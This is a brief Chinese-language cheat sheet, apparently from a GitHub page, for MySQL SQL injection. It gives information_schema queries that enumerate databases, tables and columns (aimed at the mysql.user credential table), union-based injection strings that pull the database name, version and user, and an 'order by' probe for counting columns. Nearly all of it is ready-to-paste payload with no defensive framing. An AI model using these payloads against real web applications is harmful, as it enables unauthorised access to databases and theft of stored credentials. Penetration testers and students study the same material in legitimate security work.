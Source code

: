 ## 	查表三部曲

### 		1. 查找库名

```mysql
select distinct table_schema from information_schema.tables;
select distinct table_schema from information_schema.columns;
```

### 		2. 查找表名

```mysql
select table_name from information_schema.tables where table_schema='mysql';
select distinct table_name from information_schema.columns where table_schema='mysql';
```

### 		3. 查找字段名

```mysql
select column_name from information_schema.columns where table_schema='mysql' and table_name='user';
```

## 	union 注入

```mysql
'' or 1=1 union select 1,2,3 from <schema>.<tables> where 1='1'
'' union select 1,database(),version(),user() --''
```

## 快速查找字段数

```mysql
'1' order by 15 #
```

